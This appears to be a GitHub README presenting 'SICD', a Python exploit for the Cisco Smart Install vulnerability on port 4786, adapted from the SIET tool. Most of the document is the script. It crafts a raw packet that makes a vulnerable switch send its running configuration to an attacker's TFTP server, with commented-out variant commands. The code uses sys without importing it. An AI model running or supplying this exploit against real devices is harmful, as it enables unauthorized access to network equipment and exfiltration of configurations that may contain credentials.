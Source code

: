 # SICD
Cisco Smart Install Exploit

Cisco Smart Install is accessible through TCP port 4786 and is vulnerable to attack.  The vendor advisory can be read here

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170214-smi

Existing exploits, e.g. Sab0tag3d SIET, have been published to exploit this vulnerability.

https://github.com/Sab0tag3d/SIET

This exploit (SICD - Smart Install Config Dumper) was adapted from the work of Sab0tag3d specifically for obtaining the running config from a vulnerable Cisco device.

```python
#!/usr/bin/python
# Smart Install Config Dumper

import socket
import time

# Vulnerable Cisco device
victim_ip = '10.1.2.3'
# IP of your TFTP server
attack_ip = '192.168.2.200'

if(len(sys.argv) == 3):
   attack_ip = sys.argv[1]
   victim_ip = sys.argv[2]

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.settimeout(5)
try:
   conn.connect((victim_ip, 4786))

#   c1 = 'copy system:running-config flash:/config.text'
#   c2 = 'copy flash:/config.text tftp://' + attack_ip + '/' + victim_ip + '.conf'
#   c3 = ''
#   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
#   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
#   sTcp = sTcp + c2.encode('hex') + '00' * (336 - len(c2))
#   sTcp = sTcp + c3.encode('hex') + '00' * (336 - len(c3))
   c1 = 'copy system:running-config tftp://' + attack_ip + '/' + victim_ip + '.conf'
   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
   sTcp = sTcp + '00' * 336 + '00' * 336
   
   print('[INFO]: Sending config dumper request to %s ' % victim_ip)
   conn.send(sTcp.decode('hex'))
   conn.close()
   print('[INFO]: Waiting 30 seconds for TFTP upload completion')
   time.sleep(30)

except socket.error, exc:
   print "Socket error : %s" % exc
```
